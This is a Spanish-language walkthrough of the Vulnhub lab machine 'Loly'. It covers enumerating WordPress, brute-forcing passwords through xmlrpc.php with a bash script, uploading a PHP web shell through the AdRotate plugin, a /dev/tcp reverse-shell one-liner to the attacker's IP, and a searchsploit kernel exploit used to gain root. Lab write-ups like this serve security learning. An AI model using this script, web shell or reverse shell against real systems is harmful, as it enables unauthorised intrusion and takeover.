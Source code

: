 ```yaml
---
layout: single
title: Loly - Vulnhub
date: 26/10/2023
classes: wide
header:
  teaser:

tags:
  - Web Enumeration
  - WordPress Enumeration
  - Abusing xmlrpc.php
  - Bash advanced
  - Abusing AdRotate Manage Media > RCE
  - Kernel Exploitation
  - fácil
  - linux
---
```


Para vulnerar esta máquina, debemos hacer fuzzing en la IP de la máquina víctima para descubrir el directorio del CMS, también debemos enumerar el CMS, para tener una pista, luego de enumerar bien el directorio del CMS descubriremos un el recurso del cual podemos aprovecharnos para obtener usuarios válidos mediante un ataque de fuerza bruta con un script en bash, una vez hecho esto aprovecharnos del plugin qué tiene el CMS para subir un archivo malicioso, del cual nos aprovecharemos para llevar a cabo un RCE.



# PortScan
____

```
 # Nmap 7.93 scan initiated Thu Oct 26 12:15:10 2023 as: nmap -sCV -p80 -oN targeted 192.168.204.155
 Nmap scan report for loly.lc (192.168.204.155)
 Host is up (0.00065s latency).
 
 PORT   STATE SERVICE VERSION
 80/tcp open  http    nginx 1.10.3 (Ubuntu)
 |_http-server-header: nginx/1.10.3 (Ubuntu)
 |_http-title: Welcome to nginx!
 MAC Address: 00:0C:29:C2:90:A8 (VMware)
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Thu Oct 26 12:15:17 2023 -- 1 IP address (1 host up) scanned in 7.68 seconds
```

# Sitio Web
____

![](/assets/images/loly/Pasted image 20231026142343.png)

El sitio web de Loly es bastante básico, por lo que procedemos a buscar nuevas rutas mediante el fuzzing.


```
gobuster dir -u http://192.168.204.155 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

```
/wordpress/           (Status: 200) 
```

El directorio tiene un enlace a un vhost con nombre "**loly.lc**". Agregamos esto a nuestro servidor en el "/etc/hosts" para poder ver el directorio "wordpress" con su respectivo estilo.

Indagando en el Wordpress, vemos un sólo post de único usuario

![](/assets/images/loly/Pasted image 20231026143125.png)

Por lo que ya sabemos un usuario válido.

# Enumeración WordPress
_____

```
gobuster dir -u http://192.168.204.155/wordpress/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash -x php,wp
```

Veremos qué tenemos el "**xmlrpc.php**" expuesto, y otros directorios.
```
/index.php            (Status: 301) [Size: 0] [--> http://192.168.204.155/wordpress/]
/wp-content/          (Status: 200) [Size: 0]                                        
/wp-login.php         (Status: 200) [Size: 6744]                                     
/wp-includes/         (Status: 403) [Size: 178]                                      
/wp-trackback.php     (Status: 200) [Size: 135]                                      
/wp-admin/            (Status: 302) [Size: 0] [--> http://loly.lc/wordpress/wp-login.php?redirect_to=http%3A%2F%2F192.168.204.155%2Fwordpress%2Fwp-admin%2F&reauth=1]
/xmlrpc.php           (Status: 405) [Size: 42]   
```

![](/assets/images/loly/Pasted image 20231026143323.png)

Y nos dice que el XMLRPC sólo acepta peticiones por POST, por lo qué podríamos tratar de abusar de este recurso para obtener las credenciales válidas mediante un script en Bash, y para corroborarlo debemos mandarle una solicitud con el método GET con una estructura XML qué nos permita listar los métodos disponibles del recurso XMLRPC, y sí el método "wp.getUsersBlogs" está activo, podremos realizar un script en bash que mediante fuerza bruta nos permita obtener las credenciales válidas.

```
curl -s -X POST "http://loly.lc/wordpress/xmlrpc.php" -d@file.xml | grep "wp.getUsersBlogs"
```

y como vemos el método está activo.
```
<value><string>wp.getUsersBlogs</string></value>
```

# Fuerza Bruta XMLRPC en bash.
____

Nos montamos este script en bash.
```
#!/bin/bash


function createXML(){
  password=$1

  xmlFile="""
<?xml version=\"1.0\" encoding=\"utf-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>loly</value></param>
<param><value>$password</value></param>
</params>
</methodCall>"""


  echo $xmlFile > file.xml
  response=$(curl -s -X POST "http://loly.lc/wordpress/xmlrpc.php" -d@file.xml)
  if [ ! "$(echo $response | grep "Incorrect username or password.")" ]; then
    echo -e "\n[+] La contraseña para 'loly' es: $password"
    exit 0 
  fi 

}


cat /usr/share/wordlists/rockyou.txt | while read password; do 
  createXML $password

done
```

Una vez ejecutado, nos dará las credenciales válida del usuario "loly".


# Abuso Plugin AdRotate.
____

Sí nos fijamos en el plugin AdRotate, podremos subir archivos en formatos .zip y automáticamente se descomprimirían.

![](/assets/images/loly/Pasted image 20231026144909.png)

Por lo que podemos aprovecharnos de subir un código malicioso en **PHP** comprimido el cual nos permita llevar a cabo un RCE desde la URL, para ello debemos convertirlo en zip y posteriormente subirlo.

El código malicioso .PHP tendrá lo siguiente:
```
<?php system($_GET['cmd']); ?>
```

Lo convertimos a zip, para posterior a ello subirlo en el plugin AdRotate, el cual lo descomprimirá y tan sólo se quedará con la extensión .PHP, pero para aprovecharnos de este archivo malicioso que subimos, debemos saber donde se guarda, por lo qué abajo nos deja una pista, que el directorio final sería /banners, y si nos fijamos en el fuzzing que hicimos anteriormente había un directorio /wp-content, donde suele guardarse el contenido de los WordPress, por lo qué el recurso estaría en "/wp-contet/banners/nombre_del_recurso_subido"

![](/assets/images/loly/Pasted image 20231026145053.png)

Y ya desde la URL estamos llevando a cabo un RCE, por lo que podemos entablarnos una Reverse Shell con el típico one line y conectarnos a la máquina.
```
http://loly.lc/wordpress/wp-content/banners/cmd.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/ip_atacante/443%200%3E%261%22
```

# Escalada de Privilegios.
____

```
uname -a
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```
Sí buscamos esta versión de Kernel en searchsploit, veremos que es vulnerable a escalada de Privilegios. 

![](/assets/images/loly/Pasted image 20231026150048.png)

Por lo que obtenemos este script, para compilarlo, subirlo a la máquina víctima & ejecutarlo desde allí.
```
searchsploit -m linux/local/45010.c
mv 45010.c dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
python3 -m http.server 80
```
Y ya desde la máquina víctima obtenemos el recurso donde tengamos de escritura.
```
wget ip_de_atacante/dirty
chmod +x dirty
./dirty
```
y así escalaremos como ROOT.

![](/assets/images/loly/Pasted image 20231026150312.png)
